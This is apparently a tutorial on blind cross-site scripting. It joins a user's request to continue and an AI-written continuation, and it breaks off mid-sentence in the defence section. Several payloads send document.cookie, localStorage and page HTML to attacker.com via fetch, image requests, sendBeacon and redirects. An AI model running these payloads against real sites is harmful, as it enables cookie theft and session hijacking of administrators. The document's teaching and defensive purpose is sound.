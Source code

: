 

# **Blind XSS (In-Depth)**

## **Introduction to Blind XSS**
Blind XSS is a type of Cross-Site Scripting (XSS) attack where the attacker's payload is stored and executed in a different context than where it was injected, often in an admin panel or backend system. Unlike traditional stored XSS, the attacker does not immediately see the result of the payload execution.

### **Key Characteristics:**
- **Delayed Execution**: The payload triggers at a later time when accessed by another user (e.g., an admin).
- **No Immediate Feedback**: The attacker does not see the response directly.
- **Harder to Detect**: Since the payload executes in a different context, traditional scanners may miss it.

---

## **How Blind XSS Works**
1. **Payload Injection**: Attacker submits malicious input (e.g., via contact forms, comments, or user profiles).
2. **Storage on Server**: The input is stored in a database or log file.
3. **Triggered Execution**: When an admin or another privileged user views the stored data, the payload executes.
4. **Exfiltration of Data**: The payload sends sensitive information (cookies, session tokens) back to the attacker.

---

## **Common Attack Vectors**
1. **Admin Dashboards**  
   - Admin panels often review user-submitted data (e.g., support tickets, logs).
2. **Log Files**  
   - Web servers store logs that may include malicious input.
3. **User Profiles**  
   - Some systems allow HTML/JS in profile fields that admins review.
4. **Feedback Forms**  
   - Attackers submit malicious scripts that execute when reviewed.

---

## **Exploiting Blind XSS**
### **(1) Crafting Payloads**
Since feedback is delayed, attackers use callback mechanisms:
```html
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie);
</script>
```
Or use services like:
- **[XSS Hunter](https://xsshunter.com/)** – Automates blind XSS detection.
- **[Interact.sh](https://interact.sh/)** – Checks for out-of-band interactions.

### **(2) Testing with Delayed Callbacks**
Instead of `alert()`, use:
```javascript
new Image().src="http://attacker.com/log?data="+encodeURIComponent(document.cookie);
```

Continue From Testing With Delayed Callbacks and append dont write from the start


Here’s the continuation from **Testing with Delayed Callbacks**, focusing on advanced exploitation and mitigation:

---

### **(3) Advanced Payload Techniques**  
Blind XSS often requires evasion and persistence:  
- **DOM-Based Exfiltration**:  
  ```javascript
  document.addEventListener('DOMContentLoaded', () => {
    navigator.sendBeacon('https://attacker.com/collect', window.location.href);
  });
  ```
- **Session Hijacking**:  
  ```javascript
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({cookie: document.cookie, localStorage: localStorage})
  });
  ```

- **Delayed Triggers**:  
  ```javascript
  setTimeout(() => {
    window.location.href = 'https://attacker.com/redirect?data=' + btoa(document.documentElement.innerHTML);
  }, 5000); // Executes after 5 seconds
  ```

---

### **(4) Using Blind XSS Tools**  
Automate detection with:  
- **XSS Hunter** – Hosted service that captures callbacks (screenshots, cookies, DOM).  
- **Burp Collaborator** – Built into Burp Suite for out-of-band testing.  

Example payload for XSS Hunter:  
```html
<script src="https://xsshunter.com/yourpayload.js"></script>
```

---

## **Defending Against Blind XSS**  

### **(1) Input Sanitization**  
- Use libraries like `DOMPurify` to sanitize HTML/JS in user inputs.  
- Encode outputs with context-aware escaping (HTML, JavaScript, URL).  

### **(2) Content Security Policy (CSP)**  
Restrict script execution:  
```http
Content-Security-Policy: default-src 'self'; script-src 'none'; connect-src 'none';
```
Prevents data exfiltration via `fetch()` or `<img src="attacker.com">`.  

### **(3) Monitoring and Logging**  
- Audit admin panels/logs for suspicious scripts.  
- Implement WAF rules to block known XSS payloads.  

### **(4) Least Privilege for Admin Views**  
- Render user-submitted content as plain